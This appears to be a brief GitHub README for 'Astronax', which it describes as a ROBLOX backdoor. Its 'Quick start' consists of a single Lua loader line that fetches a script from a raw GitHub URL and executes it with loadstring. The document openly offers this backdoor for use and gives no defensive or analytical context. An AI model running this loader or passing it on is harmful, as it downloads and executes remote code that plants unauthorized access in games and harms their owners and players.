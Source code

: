 
<p align=center>
<img src="https://img.shields.io/badge/Discord-5865F2?style=for-the-badge&logo=discord&logoColor=white"/>
<img src="https://img.shields.io/badge/github%20-%23121011.svg?&style=for-the-badge&logo=github&logoColor=white"/>
<img src="https://img.shields.io/badge/Lua-2C2D72?style=for-the-badge&logo=lua&logoColor=white"/>
</p>

## ⚡️ Quick start

```bash
What is Astronax?
```
```swift
Astronax is a ROBLOX backdoor.
```
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/DevDodger/Astronax/main/main.lua"))()
```
